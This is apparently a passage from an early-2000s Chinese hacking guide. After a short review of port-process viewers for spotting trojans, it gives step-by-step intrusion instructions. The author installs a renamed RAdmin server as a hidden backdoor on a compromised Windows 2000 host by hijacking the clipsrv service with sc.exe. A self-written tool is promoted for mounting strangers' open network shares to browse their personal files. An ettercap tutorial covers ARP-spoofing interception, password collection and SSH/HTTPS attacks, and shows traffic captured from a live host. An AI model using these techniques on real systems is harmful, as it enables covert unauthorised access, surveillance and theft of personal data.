所谓端口进程关联察看器意思就是，它是可以察看网络端口由哪个进程打开的工具。这些工具存在的意义在于：对于桌面用户来说最大的安全威胁应该是来自于木马，而且也只有木马这样的工具才会运用各种手段在系统中隐藏自己的进程，并打开一些“非法”端口与外界通信。那么有了端口进程关联察看工具，我们不但可以知道我们的系统中打开了哪些端口，可以判定哪些是“合法”的，哪些是“非法”的，而且还可以察看这些端口是由哪些系统进程开启的。这种工具对于初级用户来说，可以帮助了解自己的系统运行情况；对于高级用户来说，可以从端口进程关联上来判定自己的机器是否中了木马，进一步手工清除木马。

为了让大家能够更加了解端口进程关联察看软件，下面我将介绍几个流行的端口进程关联察看工具。

| 服务 | 端口 | 说明 |
|---|---:|---|
| Http | 80 | 超文本传输协议，其实就是提供网页（WEB）服务。 |
| Ftp | 21 | 文件传输协议，采用 FTP 方式可以对服务器上传下载文件。 |
| Smtp | 25 | 简单邮件传输协议，主要用于传递邮件。 |
| POP3 | 110 | 邮局协议，主要进行邮件分拣。 |
| Telnet | 23 | 远程登录协议，常见的文字 BBS 就是这种。现在主要用来进行远程维护。 |

| 服务 | 端口 | 解释 |
|---|---:|---|
| DNS | 53 | 域名解析服务。 |
| OICQ | 8000/4000 | 服务端使用 8000 端口，OICQ 软件使用 4000 端口。 |

图3-3-1

图3-3-2

#### 三、端口进程关联查询工具

### 1、fport

软件名称：fport 2.0

授权方式：免费软件

下载地址：http://www.foundstone.com/knowledge/zips/fport.zip

软件介绍：如（图3-3-3）所示，fport 是一个字符模式下的端口进程关联察看器，支持 Windows 2000/NT/XP，它可以显示进程标识符、本地端口与全路径。fport 提供了 5 个参数，分别是“/p”、“/a”、“/i”、“/ap”和“/?”，它们的意义分别为：

图3-3-3

- /p 按端口排序；
- /a 按应用程序排序；
- /i 按 PID（进程标识符）排序；
- /ap 按应用程序全路径排序；
- /? 显示帮助。

笔者认为，作为一个老牌的端口进程关联查看器，在 2.0 的版本中依然还在使用字符操作模式，这未免有点让我们这些已经习惯了图形操作的普通用户们在使用上过于麻烦。可是既然作为国外的知名产品，笔者猜想可能依然有很多高级用户习惯这种字符操作模式。

### 2、Antiy Ports

软件名称：Antiy Ports V1.21

下载地址：www.antiy.net/download/antiyports.exe

软件介绍：这是国内著名的信息安全高端实验室 Antiy Labs 出品的，是笔者在浏览 Antiy Labs 英文网站的时候发现的。由于是一个免费工具，所以 Antiy Labs 在发布的时候并没有推出中文版。作为一个端口进程关联查看工具，Antiy Ports 拥有漂亮的图形界面，支持 Windows 2000/NT/XP。如图 3-3-4 所示，它跟 fport 的区别还并不在字符界面与图形界面的差别上，Antiy Ports 不但可以查看端口进程关联，也可以中止关联进程，并支持在线端口查询。

如图 3-3-4 所示，鼠标右键选择“View port info Online”，系统将自动连接到 www.antiy.net 上一个端口查询程序，并会反馈一个端口查询结果，这个功能对于很多用户来说是十分方便的。Antiy Ports 不需要安装，双击即可执行，是我见过的最好的端口进程关联查看工具。


图 3-3-4

##### 3. Active Ports

软件名称：Active Ports V1.4

下载地址：http://www.ntutility.com/aports.zip

软件介绍：Active Ports 也是一个基于图形界面操作的端口进程关联查看工具。如图 3-3-5 所示，Active Ports 支持 Windows 2000/NT/XP，拥有与 Antiy Ports 相类似的功能，如端口查询、结束进程等功能，支持按各种类别排序，还有一个特色功能就是日志导出功能。总体来说 Active Ports 也是一个非常不错的端口进程关联查看工具，但是 Active Ports 的界面给笔者的感觉不如其他端口进程关联查看工具那么舒服，并且，Active Ports 在使用前还得进行安装，这些都是 Active Ports 在日后的版本中需要改善的。


图 3-3-5

##### 4. TCPView Pro

软件名称：TCPView Pro V1.06

下载地址：http://www.winternals.com/trynow/

软件介绍：作为一个端口关联进程查看工具却做成一个 1.86M 的工具包，这一点着实不能太让人接受；加上还是一个只能试用 15 天的收费软件，这就更加难以让人接受了。不过，这么一个难以让人接受的软件，笔者也把它列入在内的原因是，现在的端口进程关联查看工具中，还没有能够支持 Windows 95/98 操作系统的，这一点也可能是它引以自豪的地方。TCPView Pro 也同样带有日志导出，以及中止进程功能。总的来说，除了是收费软件及软件体积比较大以外，TCPView Pro 的确也能算得上是一款不错的端口进程关联查看工具。图 3-3-6 所示。


图 3-3-6

上述 4 个免费的端口进程关联查看工具的功能对比列表如图 3-3-7 所示：

| 工具 | 是否支持图形界面 | 是否支持结束进程 | 是否支持在线端口查询 | 是否需要安装 | 是否支持日志功能 | 所支持的操作系统 |
|---|---|---|---|---|---|---|
| Fport | 否 | 否 | 否 | 不需要 | 否 | WIN2000/NT/XP |
| Antiy Ports | 是 | 是 | 是 | 不需要 | 否 | WIN2000/NT/XP |
| Active Ports | 是 | 是 | 是 | 需要 | 是 | WIN2000/NT/XP |
| TCPView Pro | 是 | 是 | 是 | 需要 | 是 | WIN9X/2000/NT/XP |

图 3-3-7

#### 四、小结

对于一个初级用户来说，选择一个好的端口进程关联查看工具，无疑是一个良好的对系统知识学习的过程，在这个过程中，你将更加了解你的系统以及你的系统在网络上运行的情况。对于高级用户来说，选择一个好的端口进程关联查看工具也同样是保护你的机器的利器之一。无论是木马还是后门工具，在端口进程关联查看工具的帮助下，都可以帮助你迅速找到它，直至清除。以往大家可能忽略了端口进程关联查看工具的重要性，但是，今后不要再忽视它。

### 3.4 后门程序的隐藏

大凡喜欢 Hacker 技术的朋友在成功进入目标机器后，通常都会留下一个后门，以便下一次方便进入该机。后门可以分为系统账号和后门程序。账号方面当前要数“克隆管理员”最为流行；而后门程序，哪个比较好用、流行，到黑软下载站点查一下“后门程序”类，下载点击率如何，一看便知。不过此界好像遵循“枪打出头鸟”这个规律，流行起来的后门程序很快会被杀毒软件列入追杀行列，冠以“病毒”之名。

所以，现在很多高手用的后门程序都是自己写的。现在网络上有些人写一些所谓的“个人版”来出售；这些自己写后不公开或所谓的“个人版”由于种种原因，很少被杀毒软件所查到。

相信每一个给“肉鸡”留后门的朋友都不愿意自己辛辛苦苦弄到手的“肉机”，由于对方装有杀毒工具而自己安的后门刚好被列入“病毒”的行列而失去它吧？退一步来说，即使我们给对方装的“后门”没有被杀毒工具列入追杀行列，或对方机器根本没有装什么防毒工具，当我们堂而皇之地将后门程序在对方的机器上安装完成后，这些程序通常都会在启动选项（包括程序菜单下的启动及注册表中所含的启动选项，下同）或服务列表处留下它的“足迹”，以便下次机器重启时运行。一个还不算太笨的管理员至少应该有查看系统启动选项及进程的习惯吧。至于服务列表，一个好的管理员也应该有经常查看的习惯。如果是这样，那么，我们给对方装的后门便很容易暴露在对方的眼皮底下。

如此说来，一个好的后门程序至少必须具备以下条件：

- 1. 安全性

这个安全性包括：不容易被查杀；有密码保护及没有通用密码。不容易被查杀并不是软件作者所能为之的，因为一旦某个后门程序由于功能强大而流行起来的话，很难保证其不被很多杀毒工具所查杀，这也是很多作者为什么做一个“公开版”后，自己还要做一个“私人版”的原因。至于有密码保护，这一点也是很重要的，不然，辛辛苦苦弄到手的“肉鸡”很有可能不久之后落入他人之手而将自己关在门外。对于没有通用密码，冰河木马的衰落就是一个活生生的例子。

- 2. 隐蔽性

上面我们说了，后门程序的运行需要利用到系统的启动选项或以服务的方式来运行，我认为，将程序放在启动选项里面是最容易被发现的；而以服务的方式运行，由于需要在服务列表中新增一项服务，虽然比前者要隐蔽一些，但很多管理员还是会去查看系统的服务列表（尽管很多管理员从来不去看或很少去看）或查看系统进程来发现已运行的可疑程序。一旦对方拿着系统刚装完时导出来的服务列表跟现在的服务列表对照，就会发现我们种下的服务。所以新增服务、新增启动选项的隐蔽性还不能真正满足我们的要求。

- 3. 易用性

一个后门程序的功能是否强大，易用也是一件应该考虑的事情。

基于以上几点，现在我拿 Remote Administrator（以下简称 RAdmin）作为后门程序（话没说完，臭鸡蛋如雨点般打过来。呵呵！幸好我好有准备，闪得快）。RAdmin 和 PCanywhere、WinVNC 等一样是一款远程管理、控制软件，分客户端和服务端，但后两者服务端安装完成后，会在状态栏多出一个图标，而 RAdmin 则可以实现图标的隐藏。RAdmin 服务端默认在目标机器上安装完成后，以服务的方式运行，并且会在服务列表中新增一项“Remote Administrator Service”的服务。呵呵，虽然很多管理员从来不去看启动选项及服务列表里面的内容，但你也无法保证你进入的机器的管理员是个例外吧？如果对方在查看服务列表时，会看着新增的这个“Remote Administrator Service”服务，看着系统进程多了一个 r_server 进程而不理吗？如果我们能够通过替换系统自带的服务且不改变其服务性质而来达到我们留下后门的目的，那是一件再好不过的事情了。:-)

现在我先来介绍一下 RAdmin。RAdmin（我的网站提供下载及注册码）目前最新版本是 2.1。由于安装比较简单，我就不说了。安装完成后需要重启，比较麻烦。

重启后我们打开“开始”→“程序”→“Remote Administrator 2.1”下的“Settings for Remote Administrator Server”对服务端进行设置，这时会要求输入注册码，输入完毕后会打开如图 3-4-1 所示对话框：

第一、二个按钮分别是本地服务安装、删除，第三个按钮“Set password”是设置连接密码的。按此按钮进入设置密码，如图 3-4-2 所示。


图 3-4-1

图 3-4-2

设置的密码需要超过 8 位。下面的“Enable NT security”一般不用理，按“OK”退出。按“Options”按钮进入 RAdmin 的基本设置，如图 3-4-3 所示。

RAdmin 默认的连接端口是 4899，我们可以修改成想要的端口号。不选“Use default port”，然后填入其他端口号，例如我在这里填 23456 端口。在设置端口号的右边，我们将“Hide tray icon”前面的框选上，这个开关是设置是否要在服务端的状态栏显示 RAdmin 安装的图标，如果不选，会在状态栏出现如图 3-4-4 那个带 R 的图标。


图 3-4-3

图 3-4-4

这个选项非常重要，这也是很多人选用 RAdmin 作为后门的原因，所以我们要将这个选项选上。其他的，我们不用理会，按默认即可。这样我们配置出来后的结果便如图 3-4-5 所示。

配置完服务端的设置后，由于我们需要在“肉鸡”上安装服务端，为安装方便，我们打开注册表，并找到 HKEY_LOCAL_MACHINE\SYSTEM\Radmin 子键，如图 3-4-6 所示。


图 3-4-5

图 3-4-6

将其内容导出，在要安装服务端的机器上，将其导入，即可完成对服务端相同的配置信息，只须在服务端安装了。

上面我们已经说了，RAdmin 服务端默认安装完成后会在系统服务列表增加一项“Remote Administrator Service”的服务，并且在系统进程中增加一项“r_server”进程，这个很容易被对方管理员发现。现在我们利用 RAdmin 来给大家演示一下如何给目标机器留下后门并替换现有服务来达到隐藏所装服务的目的。

Let’s go!

假设我们已取得某台 Win2000 主机的 admin 权限，现在我们来试着以服务替换的方式隐藏我们在目标机器上安装 RAdmin 服务。我们用系统自带的“clipsrv”（服务列表显示是 clipbook 服务，它在注册表及调用的文件都是 clipsrv，为避免和下面的文件混在一起，以下将一直用 clipsrv 来说这个服务）来替换。该服务是 Windows 2000 自带的服务（NT、XP 我没有用过，所以不知道是否有该服务），安装完成后自动启动，但它不是系统必须的，这正是我们需要的。现在我们就拿它来开刀（clipsrv 大叫：为什么偏偏选中我）。

先将所需文件复制到目标机器，如图 3-4-7 所示。


图 3-4-7

我们成功地连接到一台 Windows 2000 的机器，并将所需文件 Copy 到对方的 `admin$\system32` 文件夹下，该文件夹是系统文件的默认存放位置且这里的文件非常多，容易隐藏。

已复制的文件的作用如下：两个 dll 文件是 radmin 服务端运行时可能要用到的文件，为避免在对方机器上安装时因为缺少文件而弹出对话框这个尴尬情况，我们也将它复制上去；`Clipbook.exe` 是我将 RAdmin 的服务端 `r_server.exe` 更名而来的，如果不更改，服务端安装完成后会在进程列表处多出一个 `r_server` 进程，而更名后则会多出一个 `clipbook` 进程，后者要比前者更不会引起管理员注意，所以更名；当然，你也可以改成其他不易引起他人注意的名字；而 `radmin.reg` 是我们刚才配置完服务端后导出来的注册表文件；`R_server.reg` 等一下我再介绍；`sc.exe` 是 win 下 Resource Kit 下的一个工具，等一下我们要用到。

上面我们已经将所需文件复制到目标机器，现在我们 Telnet 到对方的机器上继续我们的工作（如何 Telnet 到对方机器这里不做介绍）。

现在我们 Telnet 到目标机器并将 `radmin.reg` 导入对方注册表，如图 3-4-8 所示。


图 3-4-8

如果我们不替换系统的服务，也就是用 RAdmin 服务端自带的安装，那我们现在接着输入 `clipbook /install` 即可完成安装。但现在我们不打算这样做，我们要替换 clipsrv 服务。要替换该服务，这里把它分成完全替换和数值替换。完全替换就是将原有服务完全删除后重新建一个服务，并将其在服务列表的名称改成跟原来的一样；数值替换就是只修改该服务中某个键值，达到偷梁换柱的目的。相对而言数值替换要简单一些，但不管采用哪一种方法，都必须停止该服务。

我们先用数值替换，将 clipsrv 服务运行调用到的程序改成 RAdmin 服务端运行的程序，我们利用 `sc.exe` 在 cmd 下修改。我们先查询 clipsrv 服务的状况，如图 3-4-9 所示。


图 3-4-9

图 3-4-9 显示出 clipsrv 服务的状态跟系统默认的一样，都是自动启动且已启动。我们停止该服务并开始修改 clipsrv 服务调用程序的文件名，如图 3-4-10 所示。


图 3-4-10

由图 3-4-10 可以看出，我们已经停止该服务并成功修改 clipsrv 服务（sc 直接调用的是服务的函数，所以要用 sc 修改该服务不能用 clipbook，必须用 clipsrv）调用程序的值，也就是 RAdmin 服务端程序。而 clipbook.exe 后面的 `/service` 是 RAdmin 服务端运行时的参数，一定要加上。现在 RAdmin 服务端已成功替换，但还没有启动，我们可以用 sc 来启动，如图 3-4-11 所示。


图 3-4-11

现在我们在目标机器上已成功将 RAdmin 服务端程序植入 clipsrv 服务中了，由于该服务是系统自带且为自动启动，如果不仔细检查，还真的没法看出来。

不过用上面的替换方法后，可能是由于 RAdmin 的原因吧，RAdmin 的“full control”“view only”两个功能都无法用（我在我的机器上没有成功过，哪位高手知道原因）。“full control”一旦连接成功，将会和对方产生一个交互式登录的会话，能够操作、查看对方机器，跟本地操作一样。当然，你所做的操作对方也能看到。“view only”和“full control”的区别在于前者只能看对方操作而不能做任何事情。

既然能够和对方产生一个交互式登录，我们一定要想办法弄到，现在让我们来看看完全替换法。这里说的完全替换法，实质上就是做一个在服务列表中完全一样的服务。用完全替换，我们必须先将原服务删除或更名。我们仍以 clipsrv 服务为例来做实验（此时 clipsrv 一尘无恙。Sorry！Clipsrv，你就怀着“我不入地狱谁入地狱”的心态来为大家服务吧）。

如图 3-4-12 所示，我们先将 clipsrv 服务停止，然后再删除该服务。接着将我们更改后的 RAdmin 的服务端 clipbook.exe 安装上。


图 3-4-12

RAdmin 服务端不管改成什么名称，在安装完成后都会在服务列表增加一项“Remote Administrator Service”服务。默认是自动启动的。现在我们给“Remote Administrator Service”增加服务描述及更名。由于我们要替换的是 clipsrv 服务，所以我们也引用该服务默认的描述，使它更不易发现，如图 3-4-13 所示。


图 3-4-13

我们导入了 r_server.reg 文件，r_server.reg 是从“clipsrv”服务的描述导出来的，是为“Remote Administrator Service”增加描述的文件，如果你想改成别的，也可以用 sc 修改。R_server.reg 内容非常简单，如图 3-4-14 所示。


图 3-4-14

现在我们将“Remote Administrator Service”服务显示的名称改成“clipbook”，如图 3-4-15 所示。哦，对了，服务列表显示的名称首字母都是大写的，你也跟着大写吧，我是在我的机器上测试的，测试的时候忘了。接下来我们可以启动该服务。

好了，我们在目标机器上做了这么多工作，服务端现在是个什么样呢？我们连接到对方机器并打开服务查看服务列表显示名称为“clipbook”的属性，如图 3-4-16 所示。


图 3-4-15

图 3-4-16

怎么样，造假技术如何？虽然真正的“clipbook”服务调用的不是这个程序，但用 clipbook /service 通常也能蒙混过关。clipbook 服务调用 clipbook 文件嘛！这也是我为什么将 RAdmin 服务端改名成 clipbook 的原因。另外，替换后的服务名称处依然显示 r_server，这一点有时会引起其他人的注意，关于这一点用前面提到的数据替换法就没有这个问题。还有，在进程列表处，通过上面的修改，会多出一个叫“clipbook”的进程，而不是 RAdmin 服务端没有更名前的“r_server”，它比后者更不会引起管理员的注意。用 RAdmin 作后门还有一个比较大的隐患在于它会打开特定端口，这跟很多后门程序是一样的。不过用 RAdmin 作后门最大的好处在于它永远不会被查杀（该不会有哪个杀毒工具跟远程控制软件过不去吧）。

通过上面的设置、修改，能够很快发现该后门的管理员已不算太多了。虽然它还存在这样那样的缺点，但不管如何，这个也是继“没有端口、没有进程、永不被查杀”的程序之后，最能蒙混过关的后门了。如果能够用“没有端口、没有进程、写后不公开”的后门程序再结合上面提到的隐藏方法，那一定是一个比较完美的后门。

说了这么多，那么到底 RAdmin 有什么功能值得我们如此大动干戈？现在让我们来看看 RAdmin 给我们带来了什么：

- 1. 安全：RAdmin 是一个完完全全的远程管理软件，不会受到杀毒工具的查杀。RAdmin 不对系统本身带来任何危害，不能拿它和木马相提并论，所以不会被那些杀毒工具所查杀。再就是 RAdmin 提供密码保护，不会像一些木马程序具有通用密码，所以只有知道密码的用户才能够连成功。

RAdmin 一旦连接，会出现如图 3-4-17 的对话框：由于 RAdmin 要求密码至少 8 位，所以从某种程度上讲，它应该是安全的（设置密码时采用弱口令除外）。


图 3-4-17

图 3-4-18

- 2. 功能强大：RAdmin 提供的功能很强大，这也是为什么有那么多用户用它的原因。提供的功能如图3-4-18所示。

“full control”前面已经说了，连接成功后会与目标机器的当前用户产生一个交互式登录的会话，连接后如图3-4-19所示。

这个功能对很多管理员来说是至关重要的，管理员可以通过它对远程的机器进行管理、维护。使用时，感觉上和在本机操作没有太大的区别。

“view only”记得很多木马都提供查看当前目标机器屏幕的功能，RAdmin 也提供这个功能。

“telnet”功能，喜欢 Hacker 技术的朋友对这个功能应该很熟悉了，我就不说了。连接成功后会产生如图3-4-20所示的对话框。

图19

图20

“file transfer”文件传输功能，呵呵，以后进入一台机器后，只要在对方的机器上安装 radmin 服务端后，上传文件就再也不用老是打那长长的字符了，用拖拽就行。这个和 Windows 的资源管理器有点类似，只不过这个是上下窗口而已，如图3-4-21所示。

“shutdown”关机功能，RAdmin 提供的功能倒是挺多的，连关机功能也有好几个选项，如图3-4-22所示。

图21

图22

不管如何，我还是建议你不要轻易关掉或重启对方的机器，这很容易引起对方的注意。

以上在我的机器（Windows 2000 Advanced Server+SP3、Windows 2000 Professional SP3）测试通过，其他的等待你去测试。

虽然我不是很喜欢入侵，而且我知道网上这类教程很多，但我还是希望本文能够对某些人有所帮助。

如果你对本文仍存在疑问或技术问题，请与我联系，我的 E-mail 是：netff@21cn.com

## 第4章 另类攻击工具

### 4.1 与别人的电脑共舞——飘叶网际隧道

一直以来黑客技术都是电脑爱好者羡慕和追求的东西，但其技术只掌握在少数人手中，因而显得神秘莫测，特别是对于通过电话线入侵到别人的电脑，找到对方的一些资料。笔者通过长期的执着研究，编写了相关的工具软件，轻易就可让你达到一个黑客的功力。在此为你一道来，揭开黑客的神秘面纱（图4-1-1）。

图4-1-1

在黑客的入侵途径中不外乎3种方法：一是木马入侵；二是共享入侵；三是系统漏洞入侵。系统漏洞入侵相对来说是较难的一种方法，而且只能是最新发现的漏洞。对于我们一般电脑爱好者来说，当你知道此漏洞时，微软早已把它堵塞了，所以这种入侵方法只有一些顶尖的、能自己发现漏洞的高手掌握。普通最易掌握的当属木马入侵，只要会用几个木马软件就可以了，但必须是对方无意中或受骗运行了木马服务端软件才有可能让你得手。共享是不少网吧、单位必须的正常工作设置，特别是不少网吧为节约硬盘空间，把不少程序、游戏设置为共享给其他电脑使用；不少单位把服务器上的数据共享给员工使用，这在网络中都是常见的事。这样做方便了自己的同时也方便了黑客，共享入侵也就成了成功率最高的入侵途径（图4-1-2）。

但要在互联网中达到共享入侵也并非易事，必须通过一系列的设置才具备条件，而且还要检测出对方自由设置的共享名才行，所以使用共享入侵技术也非一般电脑爱好者所能掌握。笔者在研究了此项技术后，编写了一个非常方便的入侵工具“飘叶网际隧道”（http://piaoyes.126.com 可下载），使一般人都能尝尝当电脑 FBI 的滋味，到别人的电脑去跳舞！

要共享入侵，首要的设置就是使你的电脑本身具有设置共享能力，你必须安装 TCP/IP、NETBEUI 等协议及网络文件共享服务（鉴于 TCP/IP 协议的限制，不能访问到不同的局域内部，所以，如果你是通过服务器来访问 Internet 的网吧内部工作站，除了服务器上使用，你就别想能够入侵到网吧外的电脑了）。如果你没安装这些协议，请进入“控制面板”，双击“网络”图标，在弹出的对话框中按“添加”，在“请选择网络组件类型”中选择“协议”，“厂商”选 Microsoft，网络协议选择“TCP/IP”。“确定”后，按提示插入 Windows 安装光盘，同样再安装其他协议与服务。安装后你的桌面上应出现“网上邻居”图标，在“我的电脑”上选中任一个盘，按右键弹出的快捷菜单上应有“共享……”的菜单项。

其次，打开你的“拨号网络”，在对应你上网的拨号图标的属性中进入“服务器类型”设置界面。将“高级选项”里的“登录网络”选中，如果你正在运行着“天网防火墙”，请关闭它！

至此，你的入侵条件已经具备，赶快打开运行“飘叶网际隧道”吧。当你填入对方的 IP 后，按下“检测共享”它就会检测对方；如果对方有共享的话，会自动把对方的所有共享名填入“对方共享名”栏；如果勾上“检测整网段”，在自动检测时，当这个 IP 没有共享时，会连续检测下一个 IP，直到检测到共享或者整个网段才会停止，中途你也可去掉对勾强迫它停下（图4-1-3）。

图4-1-2

图4-1-3

当检测到有共享盘，你可选择其中一个共享名按“连接”入侵。当提示连接成功后，打开“我的电脑”，你就会发现多了一个网络硬盘，对方的硬盘就被“抢”过来了！在对方硬盘的操作就像操作你自己的盘一样。先试试建立一个文本文档（由于是远程联接，操作过程比本地硬盘较慢，但不是当机），如果成功的话，对方就是完全共享了，即像自己的盘一样怎样操作都行！

如果连接失败，提示“原因不明”，大多情况都是因为对方的共享设置了密码进入，这也是预防别人进入你的电脑的重要措施！可惜网络中太多人忽视了这点！

连接入对方的硬盘后，你可以找到一些 Word 或 Excel 文档，看看它们的属性，说不定你会找到作者的名字。打开这些文档后会找到作者的名字或单位名称，因为许多日常中的打印文稿最后落款都会有作者的单位名称或作者名字；说不定你还会找到一些对方生活照片的图片文件。只要你细心找找，多多少少对方的信息都会呈现在你眼前。体会回味一下，冥冥之中，一个未曾谋面的人，也不知是世界上哪个角落的人，竟能让你进入他的电脑查得他姓名甚至看到他的样子，够神奇了吧？

不过要记得的是不要破坏对方硬盘文件，毕竟天网恢恢，疏而不漏！搞乱破坏不是本软件的编写意图，也绝不是一个真正“黑客”的行径，技术的追求和掌握才是我们的真正用意。

### 4.2 ETTERCAP——交换环境下的嗅探器

ETTERCAP 是由意大利人 ALoR 和 NaGA 开发出来的，它不仅可以嗅探数据包，还可以更改其内容，也可以自己注入一些命令。

#### 一、安装

你可以在网上很多地方下载到它的最新版本，下载完后，先解压缩：

```bash
tar zxpvf ettercap-0.6.tar.gz
cd ettercap-0.6
./configure&&make&&make install
make plug-ins
make plug-ins-install
```

安装完成后，输入“ettercap -help”就可以看见帮助文档，基本用法是：

```bash
ettercap [option] [host:port] [host:port] [mac] [mac]
```

#### 二、功能介绍

嗅探：它有5种工作模式。

```bash
-a —— arpsniff 基于 arp 的欺骗，分3小种：arpbased、smartarp 和 publicarp
-s —— sniff 属于 IPBASED，目标可以是任何主机
-m —— macsniff 属于 MACBASED
```

需要说明的是，-s、-m 两选项带来的是传统嗅探模式，分别基于 IP 地址和 MAC 地址；也就是说它们必须先把网卡置于混杂，然后才可以正常工作。所以在交换环境下，这两项会完全失效；-a 选项是基于 ARP 欺骗的，是一种中间人攻击模型。实质是利用了 ARP 协议的漏洞，攻击者分别欺骗了 A 和 B 机，让 A 机把数据传给嗅探者，然后再由嗅探机器把数据转发给 B 机，A 和 B 却没有意识到数据包的中转过程，这样我们就可以劫获数据甚至修改数据包。

下面分别介绍5种用法：

- 1. `ettercap -Nza ip1 ip2 mac1 mac2`（arpbased）  
  劫获 IP1 与 IP2 间的数据，缺省状态下只接收 TCP 数据包。
- 2. `ettercap -Na ip mac`（smartarp）  
  劫获此 IP 与外部所有通信数据，这种方式比较剧烈，启动时采用的是 ARP 风暴，很容易被发现。如果别人在用 TCPDUMP 监听，就会看见攻击者发出的无数的 ARP 请求，再傻的管理员都明白什么事情发生了。不过，由于修改了指定主机的 ARP 表中关于被监听主机的 MAC 地址，还修改了被监听主机中的那些指定主机的 MAC 地址，处在完全的中间人工作状态，这时候你可以做的事情多些，比如更改数据包、截取 SSH 口令。
- 3. `ettercap -Nza ip mac`（publicarp）  
  同上，不同点在于发送 ARP 请求的方式，上面采用的是 ARP 广播，这里只是对特定主机发送 ARP 请求。这样不易引起管理员的怀疑。不过也带来一个问题：被监听者自己也会收到这个以广播方式发送的 ARP 响应包，于是便会弹出“检测到 IP 地址与硬件地址冲突”之类的警告，不过不会影响目标主机正常通信。还有一点就是发往被监听主机的数据包会送给监听者，而监听者发出的数据包却被直接送往真正的目的主机，没有经过监听者的主机，所以我们只能截取不完全的通信内容。
- 4. `ettercap -Nzs IP:80`（ipbased sniffing）  
  基于 IP 地址的嗅探。这里只劫获目标机器 HTTP 消息，你也可以指定其他端口，比如 23。如果没有指定，所有都会被截取。
- 5. `ettercap -zm mac1 mac2`（macbased）  
  基于 MAC 的嗅探，只需输入 MAC 地址。

需要说明的是，4 和 5 两种方式只适合于共享网络，在交换网络下一概无效。MAC 地址的获取很简单，直接在终端输入“ettercap -l”就会列出所有在线主机。或者你先 PING 一下某个 IP，不管有没有回应（没有回应可能是对方开了防火墙），再用 ARP 命令就可以获取其 MAC 地址。如果无法获取，则此 IP 不存在，这也是探测防火墙后的主机是否在线的一个好方法。

包过滤：由于网络流量实在很大，当你面对大量记录数据时，你可能会感到手足无措。你想找到自己需要的数据无疑是一项艰巨的工作。这时候，我们可以通过 `-F` 选项加载自己的过滤规则，这样，很多无用的数据就会被忽略、删节。和正则字符一样，我们进行包过滤时有必要的话也要注意到正确的 TCP 序列号和确认序列号等因素。一旦你加载了自己的过滤链，你就可以有目的地得到自己最需要的数据了。一条过滤规则看起来就像汇编程序一样，当然，还是有差距的，用“列阵”形容可能更确切些。一条过滤规则大概如下：协议、源端口、目标端口、承载数据。

一个空的搜索字符串总可以成立，比如端口如果没有指定，所有的都会被记录下来。只要那些规则匹配，你的过滤链就可以工作了。

例如有如下数据流：

```text
packet 1: "var1=123&var2=400"
packet 2: "var1=124&var2=420"
packet 3: "var1=125&var2=460"
packet 4: "var1=126&var2=540"
packet 5: "var1=127&var2=700"
......
......
```

我们可以写如下规则：

```text
Search: "var1=[3*]"
Replace: "var1=000"
```

被过滤后的流就会如下：

```text
packet 1: "var1=000&var2=400"
packet 2: "var1=000&var2=420"
packet 3: "var1=000&var2=460"
packet 4: "var1=000&var2=540"
packet 5: "var1=000&var2=700"
```

如果“var1”后面没有被指定，默认则“var1=000”。

最后是关于 SSH 的嗅探：由于传输数据被加密，我们必须自己掌握密钥，具体实现方法如下：我们先截取服务器的明码密钥，保存在一边。自己再生成另一明码密钥，用来加密本机与客户机通信数据，收到客户机数据后，自然可以解密，再用服务器明码密钥加密，发送给服务器，如此一来，可以偷梁换柱。

#### 三、工作参数

下面列出它的主要选项，虽然它本身有28个，不过限于篇幅，下面只列出一些常用的：

- `-N --simple` 非交互方式；很常用的
- `-z --silent` 静模式（启动时不发送 ARP 风暴）
- `-O --passive` 被动模式嗅探
- `-b --broadping` 广播 PING，替代了 ARPPING
- `-S --spoof <ip1>` 用 IP1 这地址发送 ARP 请求获取其他机器信息
- `-H --hosts <ip1[ip2][...]>` 嗅探的目标主机的 IP，可以是很多台
- `-n --netmask <netmask>` 扫描由输入子网掩码确定的子网
- `-v --version` 检查最新版本
- `-h --help` 帮助文档

组合选项（一般和 N 绑定一起执行）：

- `-u --udp` 嗅探 UDP 数据，缺省是 TCP
- `-p --plugin <name>` 运行指定名字的插件
- `-l --list` 列出所有在线主机 IP 和 MAC，实质就是发送 255 个 ARP 请求，等待回音；如果你的子网掩码是 255.255.0.0，就会发送 255*255 个请求，就是 ARP 风暴吧！
- `-C --collect` 仅搜集用户名和对应密码（Eg: `ettercap -NCzs IP:port`，它规则不是很严格，所以你 IP 或 PORT 不填也没有关系）
- `-c --check` 检查网络里有无其他机器正在嗅探
- `-x --hexview` 用16进制表达数据，这样如果你想自己创建一个包的话会比较方便。比如，建个文件写上 `\x01\x02\x00\x00\xFF\xFF\x00\x02here the pass`。注意：ettercap 不仅可以嗅探包，也可以创建包，所以你可以更改穿过你机器的任何一段数据
- `-L --logtofile` 记录所有数据到指定位置
- `-k --newcert` 创建一个新的 CERT 文件，用以进行 HTTPS 攻击
- `-F --filter` 从指定文件加载过滤规则
- `-f --fingerprint <host>` 指定主机的 OS 判别，采用的是 nmap 的数据库，所以准确性得到保障，不过也有无法辨别的时候
- `-t --linktype` 判断自己处在什么样的网络环境中，交换或是 HUB

#### 四、实战

210.197.248.192 是确定在线的主机，先判断它的操作系统：

```bash
[root@CIDI_tool]# ettercap -Nf *.*.248.192
ettercap 0.6.0 (C) 2001 ALoR & NaGA
Your IP: *.*.248.226 with MAC: 00:00:E8:7B:CA:4E on iface: eth0
Fingerprinting *.*.248.192:
Operating System:
Windows NT 5 Beta2 or Beta3
Windows Me or Windows 2000 RC1 through final release
MS Windows 2000 Professional RC1/W2K Advanced Server Beta3
Windows Millenium Edition v4.90.3000
```

现在小试牛刀，看看对方正在做什么：

```bash
[root@CIEL root]# ettercap -Nza *.*.248.192 *.*.248.254 MAC1 MAC2
```

这里 *.*.248.254 是网关。这样，我们就是中间人了，它与外网所有数据都会在我们这里流过。不过被嗅探机器的内网数据交换我们将看不到。下面是截取到的两段典型的 HTTP 交互数据，从第一段可以看出客户正在看的网页、脚本、浏览器语言以及客户的操作系统等信息；从第二段可以看出主机的 banner 等等，都是网站的基本资料。

```http
GET /pcedu/script/title_edu.js HTTP/1.1
Accept: */*
Referer: http://wwwb.pconline.com.cn/pcedu/soft/doc/nt/10308.htm
Accept-Language: zh-cn
Accept-Encoding: gzip, deflate
If-Modified-Since: Mon, 09 Sep 2002 09:18:53 GMT
If-None-Match: "6f67c-2a5-3d7c677d"
User-Agent: Mozilla/4.0 (compatible; MSIE 5.0; Windows 98; DigExt)
Host: wwwb.pconline.com.cn
Connection: Keep-Alive

HTTP/1.1 200 OK
Date: Sat, 01 Mar 2003 08:25:37 GMT
